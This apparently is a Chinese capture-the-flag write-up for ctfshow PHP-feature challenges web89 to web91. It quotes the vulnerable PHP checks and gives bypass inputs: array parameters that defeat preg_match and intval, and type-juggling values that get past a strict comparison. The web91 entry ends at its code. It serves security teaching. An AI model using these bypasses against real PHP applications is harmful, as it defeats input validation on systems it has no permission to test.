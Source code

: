 ## ctfshow- PHP特性

[TOC]

### web89

```php
if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
```

需要绕过`preg_match`,利用数组绕过

> `preg_match()`当检测的变量是数组的时候,会报错并返回0。
>
> `intval()`函数转换数组的时候
>
> - 有数据返回 1
> - 没数据返回 0 

```python
?num[]=1
```



### web90

```php
if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
```

`===` 强判断，会判断类型，所以传非整数类型即可

```
pj?num=4476a
?num=4476.0
```

> 看文档还可以使用  八进制或者十六进制绕过



### web91

```php
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
```
